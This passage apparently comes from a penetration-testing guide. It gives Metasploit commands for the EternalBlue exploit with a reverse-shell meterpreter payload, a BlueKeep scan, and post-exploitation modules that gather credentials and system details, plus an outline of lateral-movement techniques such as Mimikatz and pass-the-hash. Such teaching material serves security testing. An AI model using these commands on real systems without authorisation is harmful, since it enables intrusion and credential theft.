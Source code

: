 #### Metasploit for Network Exploitation
**Common Network Exploits:**
```bash
# EternalBlue (MS17-010)
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS target_ip
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit

# BlueKeep (CVE-2019-0708)
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
set RHOSTS target_range
run
```

### Post-Exploitation Activities

#### Information Gathering
**System Information Collection:**
```bash
# Meterpreter commands
sysinfo
getuid
ps
netstat
route

# Windows privilege escalation enumeration
run post/windows/gather/enum_services
run post/windows/gather/credentials/windows_autologin
run post/multi/recon/local_exploit_suggester

# Linux enumeration
run post/linux/gather/enum_configs
run post/linux/gather/enum_network
run post/linux/gather/checkvm
```

#### Privilege Escalation
**Common Techniques:**
- Kernel exploits
- Service misconfigurations
- Weak file permissions
- Scheduled task abuse
- Registry vulnerabilities (Windows)
- SUID binaries (Linux)

#### Lateral Movement
**Movement Techniques:**
```
Lateral Movement Methods:
├── Credential Harvesting
│   ├── Memory dumps (Mimikatz)
│   ├── Registry extraction
│   ├── Password files
│   └── Browser credentials
├── Pass-the-Hash/Token
│   ├── NTLM hash reuse
│   ├── Kerberos ticket abuse
│   └── Token impersonation
├── Remote Access Tools
│   ├── PsExec
│   ├── WMI
│   ├── PowerShell remoting
```